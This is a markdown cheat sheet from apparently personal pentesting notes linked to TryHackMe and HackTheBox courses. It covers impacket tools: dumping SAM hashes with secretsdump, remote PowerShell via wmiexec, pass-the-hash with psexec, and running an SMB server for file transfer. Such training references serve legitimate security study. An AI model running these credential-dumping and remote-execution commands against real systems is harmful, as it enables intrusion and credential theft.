 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.4k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump # secretsdump.py
$ ...
```

You may install them manually too:

```shell!
$ sudo git clone https://github.com/fortra/impacket /opt/impacket
$ cd /opt/impacket
$ pip install -r requirements.txt
$ pip install .
$ python /opt/impacket/examples/secretsdump.py [...]
```

<br>

#### Samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

<br>

#### wmiexec

Pop a powershell or run commands using [DCOM](/operating-systems/networking/protocols/dcom.md):

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

<br>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
SQL> exit
```
</div><div>

#### Dump hashes from backup

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
<output format is explained in the output>
```

<br>

#### PsExec

Use a hash to login (Pass-The-Hash).

```shell!
$ impacket-psexec -hashes usernamehash:sessionhash username@IP
```

<br>

#### SMB server

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support share_name /path/to/share
```

<br>

#### SMB Client

Alternative to `smbclient`. It works even when the former doesn't.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
# shares
<list of shares>
# use <sharename>
# ls
# tree
```
</div></div>
